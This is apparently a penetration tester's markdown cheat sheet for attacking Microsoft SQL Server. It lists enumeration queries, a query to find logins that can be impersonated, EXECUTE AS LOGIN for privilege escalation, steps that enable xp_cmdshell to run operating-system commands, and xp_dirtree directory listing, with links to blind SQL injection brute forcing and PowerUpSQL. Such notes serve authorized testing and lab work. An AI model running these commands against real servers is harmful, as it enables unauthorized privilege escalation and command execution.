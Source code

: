 ### Commands
- enum_db
- 
- `SELECT @@version;`
- `SELECT name FROM sys.databases;` (to list all available db's)
	- master, tempdb, model, and msdb are default
- `SELECT * FROM $non-default-db.information_schema.tables;`
	- `select * from $non-default-db.dbo.$table;`

See if we can impersonate a user:
- `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
If we can impersonate `$user-reader`:
- `EXECUTE AS LOGIN = '$user-reader'`
- `use $user`

### xp_cmdshell
1. `EXECUTE sp_configure 'show advanced options', 1;`
2. `RECONFIGURE;`
3. `EXECUTE sp_configure 'xp_cmdshell', 1;`
4. `RECONFIGURE;`
5. `EXECUTE xp_cmdshell 'whoami';`

### xp_dirtree
- `xp_dirtree C:\inetpub\wwwroot` for example 

### Brute forcing with ffuf
https://medium.com/@opabravo/manually-exploit-blind-sql-injection-with-ffuf-92881a199345

### Tools
- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

